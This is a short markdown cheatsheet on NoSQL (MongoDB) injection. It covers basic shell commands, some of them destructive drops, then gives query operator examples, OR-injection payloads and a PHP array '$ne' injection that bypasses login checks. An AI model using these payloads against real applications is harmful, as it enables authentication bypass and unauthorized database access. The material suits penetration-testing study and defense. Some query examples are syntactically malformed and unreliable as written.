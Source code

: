 ```yaml
---
title:  "NoSQL injections"
topic: "web"
---
```

# NoSQL cheatsheet
## Databases
* List databases: `show dbs`
* Specify database: `use database_name`
* Check current database: `db`
* Delete database: `db.dropDatabase()`

## Collections
* List collections: `show collections`
* Create collection: `db.createCollection(name)`
* Create collection with automatic `_id` field: `db.createCollection(name, {autoIndexId: true})`
* Delete collection: `db.collection_name.drop()``

## Operations examples
```
db.logins.find();
db.logins.find().pretty();
db.logins.find({$and: {key1: value1}, {key2: value2}});
db.logins.find({$or: {key1: value1}, {key2: value2}});
db.logins.find({key1: value1});
db.logins.find({key1: {$ne: value1}}); // Not equal
db.logins.find({key1: {$lt: value1}}); // Less than
db.logins.find({key1: {$lte: value1}}); // Less than or equal
db.logins.find({key1: {$gt: value1}}); // Greater than
db.logins.find({key1: {$gte: value1}}); // Greater than or equal
```


# NoSQL OR injections
* `login=admin',$or:[{},{'a'='a&pass='}]`
* `find( {'$where' : 'function() { return artist == "Weezer"; }'} )`

# PHP array injections
* PHP associative arrays: `$collection->find(array('login' => 'test'))` equivalent to `find({'login': 'test'})`
* Automatic array creation: if `page.php?param[foo]=bar` then `param == array('foo' => 'bar')`
* If `db->logins->find(array(“username”=>$_POST[“username”],
“password”=>$_POST[“password”]));`, then `login[$ne]=test&password[$ne]=test` transformed to `array(“username” => array(“$ne” => 1), “password” =>
array(“$ne” => 1));` equivalent to `{ username: { $ne: 1 }, password: { $ne: 1 } }`
